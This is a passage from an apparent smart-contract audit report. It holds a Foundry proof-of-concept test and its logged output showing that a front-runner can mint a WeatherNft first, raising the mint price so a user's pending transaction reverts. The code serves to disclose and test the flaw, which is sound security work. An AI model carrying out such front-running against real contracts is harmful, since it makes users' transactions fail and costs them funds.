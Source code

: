 ```Solidity
            isoCode,
            false,
            1 days,
            0
        );
        vm.stopPrank();

        // Front-runner sees the transaction and front-runs it
        vm.prank(frontRunner);
        weatherNft.requestMintWeatherNFT{value: initialPrice}(
            "999999", // different pincode
            "US", // different country
            false,
            1 days,
            0
        );

        // Price has now increased
        uint256 newPrice = weatherNft.s_currentMintPrice();
        console.log(
            "New price: ",
            newPrice,
            " Step increase: ",
            weatherNft.s_stepIncreasePerMint()
        );
        assertEq(
            newPrice,
            initialPrice + weatherNft.s_stepIncreasePerMint()
        );

        // User's transaction would now fail if executed with the original value
        vm.expectRevert(WeatherNftStore.WeatherNft__InvalidAmountSent.selector);
        vm.prank(user);
        (bool success, ) = address(weatherNft).call{value: initialPrice}(
            userTx
        );
    }
```

Fig.1

```Solidity
[PASS] test_frontRunning_vulnerability() (gas: 510032)
Logs:
  Initial price:  100000000000000  Step increase:  10000000000000
  New price:  110000000000000  Step increase:  10000000000000
```

Running this test with the command `forge test --mt test_frontRunning_vulnerability --via-ir --rpc-url $AVAX_FUJI_RPC_URL -vvvv` will have the output shown in Fig.1.

Fig.2

